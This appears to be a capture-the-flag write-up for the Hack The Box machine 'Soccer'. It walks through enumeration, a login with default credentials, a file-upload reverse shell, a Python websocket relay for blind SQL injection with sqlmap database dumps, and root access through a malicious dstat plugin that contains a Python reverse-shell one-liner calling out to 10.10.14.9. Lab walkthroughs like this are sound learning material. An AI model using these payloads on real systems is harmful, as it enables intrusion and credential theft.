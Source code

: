 ### Enumeration

By nmap port scan we have some open tcp and udp ports
```shell
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http         nginx 1.18.0 (Ubuntu)
1026/tcp filtered LSA-or-nterm
9091/tcp open  xmltec-xmlmail
19/udp    closed chargen
1214/udp  closed fasttrack
19374/udp closed unknown
20380/udp closed unknown
32385/udp closed unknown
57843/udp closed unknown
```

![](/Hack-The-Box/soccer/img/1.png)

During directory scanning we found some endpoints where one is a login page to `tiny file mnager` and the second one is a upload page which is forbidden
```shell
200      GET      147l      526w     6917c http://soccer.htb/
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
```
![](/Hack-The-Box/soccer/img/2.png)

So by using the defaults credentials from github page; we successfully login and found a upload function. so navigating to `/tiny/uploads` and uploaded our revshell payload and recived a shell as `www-data`

SInce the site is running on `nginx` we just navigate to `/etc/nginx/site-availabes` and found a subdomain running on the server
![](/Hack-The-Box/soccer/img/3.png)

![](/Hack-The-Box/soccer/img/4.png)

we signin  and login to the account a found a page to check our tickets. 
![](/Hack-The-Box/soccer/img/5.png)

while checking the html source page we found a websocket connection running on the subdomain
```html
 <script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
```

Since there is nothing else that caught my eye I digged around and found out that we probably could try to find a blind sql injection like described on
```url
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```

so crafing the script 
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
Now using sqlmap we have got password for user palyer
```c
sqlmap -u "http://localhost:8081/?id=96680*" --batch --dbs 
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db --tables --dbs
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db -T accounts  --dump
```

### PRIVILLAGE ESCLATION

when executing 
`find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'`
we found a file named dstat in `/usr/local/share`

and while running 
`find / -user root -perm -4000`
we found `/usr/local/bin/doas`
```c#
doas is a command on OpenBSD systems that allows users to execute commands as other users, similar to the sudo command on other Unix-like operating systems. It stands for "do as", as in "perform the following command as the specified user". doas is configured through the /etc/doas.conf file, which specifies which users are allowed to use doas and which commands they are allowed to execute.
```
```python
player@soccer:/usr/local/etc$ cat doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Now we are abuding  dstat pligins in order to become root user
 create a file named `dstat_bq.py` with our rev_shell payload
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",3636));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```
upload the file to our target machine using `wget`
copy the file into `/usr/local/share/dstat` and change the permission of the file
check whether our malcious plugin have been loaded
` doas /usr/bin/dstat --list`
![](/Hack-The-Box/soccer/img/6.png)

Open a netcat lisner and execute the following command
`doas -u root /usr/bin/dstat --bq`
![](/Hack-The-Box/soccer/img/7.png)
